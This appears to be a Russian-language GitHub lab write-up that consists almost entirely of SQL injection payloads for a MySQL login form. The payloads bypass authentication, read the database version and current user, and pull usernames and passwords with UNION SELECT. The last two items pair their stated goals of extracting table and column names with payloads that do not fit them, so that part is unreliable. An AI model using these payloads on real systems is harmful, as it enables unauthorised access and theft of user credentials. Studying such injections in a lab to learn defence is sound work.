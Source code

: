 1. Список всех пользователей.
Инъекция: ' OR 1=1 #
![image](https://github.com/user-attachments/assets/be500567-e423-4c57-a012-9e362812fae5)
2. Узнать версию MySQL
Инъекция: ' UNION SELECT @@version, @@version-- (ввод в поле пароля)
![image](https://github.com/user-attachments/assets/bc405aac-a85a-4cd3-8778-c3b4afcace6e)
3. Узнать пароли всех пользователей
Инъекция: ' UNION SELECT username,password FROM users;
![image](https://github.com/user-attachments/assets/523a0a88-3c0a-4652-b164-69b7ee49dc81)

4. Определить текущего пользователя базы данных
Инъекция: ' UNION SELECT CURRENT_USER(), CURRENT_USER()-- (ввод в поле пароля)

5. Извлечь имена таблиц из схемы базы данных
Инъекция: ' OR 1=1 #

6. Получить список столбцов users таблицы
Инъекция: ' OR 1=1 #
' UNION SELECT password FROM users--
